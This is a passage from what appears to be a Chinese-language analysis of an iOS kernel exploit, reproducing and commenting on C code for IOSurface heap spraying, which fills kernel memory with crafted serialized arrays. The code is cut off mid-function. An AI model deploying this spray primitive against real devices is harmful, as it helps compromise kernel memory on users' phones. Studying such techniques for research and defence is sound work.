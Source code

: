 ```c
for (uint32_t array_id = 0; array_id < array_count; array_id++) {
    *key = base255_encode(total_arrays + array_id);
    for (uint32_t data_id = 0; data_id < current_array_length; data_id++) {
        memcpy(xml_data[data_id], data, data_size - 1);
    }
    ok = IOSurface_set_value(args, args_size);
}
```

完整的主代码如下，我去掉了一部分不会访问到的逻辑

```c
static uint32_t total_arrays = 0;
static bool
IOSurface_spray_with_gc_internal(uint32_t array_count, uint32_t array_length, uint32_t extra_count,
		void *data, uint32_t data_size,
		void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
	// 初始化IOSurface，获取IOSurfaceRootUserClient用于函数调用
	bool ok = IOSurface_init();
	// 此处extra_count为0，每次堆喷的数组长度为256，数组元素就是我们构造的数据data
	uint32_t current_array_length = array_length + (extra_count > 0 ? 1 : 0);
    // 计算每一个数组元素data所需要的节点数量
	size_t xml_units_per_data = xml_units_for_data_size(data_size);
	size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
	// Allocate the args struct.
	struct IOSurfaceValueArgs *args;
	size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
	args = malloc(args_size);
	
    // Build the IOSurfaceValueArgs.
	args->surface_id = IOSurface_id;
	
    // Create the serialized OSArray. We'll remember the locations we need to fill in with our
	// data as well as the slot we need to set our key.
    uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
	uint32_t *key;
	size_t xml_size = serialize_IOSurface_data_array(args->xml,
			current_array_length, data_size, xml_data, &key);
	
    // Keep track of when we need to do GC.
	size_t sprayed = 0;
	size_t next_gc_step = 0;
	
	for (uint32_t array_id = 0; array_id < array_count; array_id++) {
		// If we've crossed the GC sleep boundary, 
        // sleep for a bit and schedule the next one.
		// Now build the array and its elements.
		*key = base255_encode(total_arrays + array_id);
		for (uint32_t data_id = 0; data_id < current_array_length; data_id++) {
			// Copy in the data to the appropriate slot.
			memcpy(xml_data[data_id], data, data_size - 1);
		}
		
        // Finally set the array in the surface.
		ok = IOSurface_set_value(args, args_size);
		if (ok) {
			sprayed += data_size * current_array_length;
		}
	}
	if (next_gc_step > 0) {
		// printf("\n");
	}
	free(args);
	free(xml_data);
```